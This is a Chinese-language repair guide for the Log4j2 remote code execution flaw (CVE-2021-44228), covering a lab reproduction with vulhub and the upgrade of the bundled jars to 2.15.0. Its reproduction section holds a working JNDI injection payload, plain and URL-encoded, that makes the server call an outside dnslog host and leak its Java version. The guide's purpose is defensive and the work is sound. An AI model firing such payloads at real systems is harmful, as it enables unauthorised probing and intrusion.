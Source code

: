 # Apache Log4j2-RCE漏洞修复步骤（CVE-2021-44228）

`@Time   : 2022/8/24 13:41`
`@Author : 852782749@qq.com`

```
开始编辑～
```
## 文章共分为漏洞复现、漏洞修复

### 漏洞复现
#### 部署log4j2环境，复现漏洞
```angular2html
这里使用vulhub的log4j2 rce的docker环境中用到的环境包
java -jar c:\Apache_Log4j2\log4j2.jar --server.port=8081

可以自行下载或匹配自己对应业务系统的log4j*.jar包
```
> 启动后访问目标地址
![avatar](images/apache_06.png)

>打开`dnslog.cn`,开始监听
![avatar](images/apache_07.png)
#### 构造payload
> 构造payload `${jndi:ldap://${sys:java.version}.d82hcy.dnslog.cn}`;
>
> 将payload 进行url编码 `%24%7Bjndi%3Aldap%3A%2F%2F%24%7Bsys%3Ajava.version%7D.d82hcy.dnslog.cn%7D`

#### 攻击复现
> 使用浏览器发起访问`host+prot/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F%24%7Bsys%3Ajava.version%7D.d82hcy.dnslog.cn%7D`
> 
> 启动引擎日志记录了对dnslog发起的访问
![avatar](images/apache_08.png)
>
> 
> 切换到dnslog页面进行查看，部分需要单击`Refresh Record`获取下请求信息
> 
> 如果能够检测到与下面类似的信息，说明复现成功。
![avatar](images/apache_09.png)
> 

### 漏洞修复
#### 下载不受影响的log4j版本`https://archive.apache.org/dist/logging/log4j/2.15.0/apache-log4j-2.15.0-bin.zip`

#### jar命令
```angular2html
Soring boot 项目jar包解压之后 修改文件之后 在不依靠开发工具的情况下重新压缩jar包 打包命令如下：
jar -cvf0M log4jup.jar BOOT-INF/ META-INF/ org/
压缩
jar -cvf xxx.jar
解压
jar -xvf xxx.jar
更新
jar -uvf xxx.jar BOOT-INF/classes/application-dev.yml
列出jar包内容
jar -tvf xxx.jar
```
#### 使用jar解压命令，将log4.jar解压
![avatar](images/apache_10.png)
![avatar](images/apache_11.png)
#### 漏洞修复步骤
> 查询引用了哪些`log4j*.jar`，在路径`\BOOT-INF\lib\`下找到两个log4j的包
![avatar](images/apache_12.png)
> 使用新版的jar包将其替换
![avatar](images/apache_13.png)
> 替换成新版本之后，找到引用的`pom.xml`文件，在路径`\META-INF\maven\com.example\log4j2_rce\`下，
![avatar](images/apache_14.png)
> 将log4j的version修改为新的版本号，如这里是2.15.0
![avatar](images/apache_15.png)
```angular2html
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
```
> 使用`jar -cvf0M log4jup.jar BOOT-INF/ META-INF/ org/`命令重新压缩成新的jar包，如log4jup.jar
![avatar](images/apache_16.png)
![avatar](images/apache_17.png)
> 此时已完成修复，可以再次重复漏洞复现步骤进行验证，dnslog已经获取不到信息
![avatar](images/apache_18.png)
> 
## 思考

> 乾坤未定，你我皆是黑马